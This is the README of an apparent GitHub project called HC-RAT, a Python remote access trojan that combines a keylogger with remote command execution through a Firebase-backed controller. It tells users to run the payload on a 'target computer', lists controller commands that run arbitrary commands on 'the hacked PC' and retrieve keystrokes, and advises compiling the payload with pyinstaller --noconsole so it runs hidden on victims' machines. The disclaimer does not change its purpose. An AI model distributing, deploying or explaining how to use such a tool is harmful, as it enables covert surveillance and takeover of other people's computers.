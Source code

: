 # HC-RAT
Hacker Community Remote Control Trojan
# Requirements
python 3.7>=

libs:

``
pip install pyrebase4
``

``
pip install keyboard
``

``
pip install colorama
``
# Usage
HC RAT is a RAT that contain two kinds of attacks. [keylogger](https://en.wikipedia.org/wiki/Keystroke_logging) and [RCE](https://www.bugcrowd.com/glossary/remote-code-execution-rce/)

first file HC.py is the virus that keylog and controller.py is the controller of rce and keylogging

Target computer:

``
python HC.py
``

Controller computer:

```
python controller.py

[FirstRat@HCn1 ~] $ help

 help               showing this message
 cd               navigate remoted pc (Please Note that you should only add path after cd        
 updateId               move to newest session
 delete               delete current database
 fileout               write keylog to pc
 (any command else)               RCE
```

 Use ``updateID`` to control and reach the newest session

 Use ``delete`` to delete database content

 Use ``fileout`` to write out on your PC the keylog of the targeted PC

 ``any command else`` will run on the command prompt of the hacked PC 

# NOTE 

I am not responsible of any inappropriate usage of this script

# Advice 

You can make the RAT executable that will be better for hacking PC's that doesnt contain Python.

You may compile this way:

```
pip install pyinstaller
pyinstaller HC.py --noconsole --onefile 
```

Leave a star in your Way out

ZeD_OnE
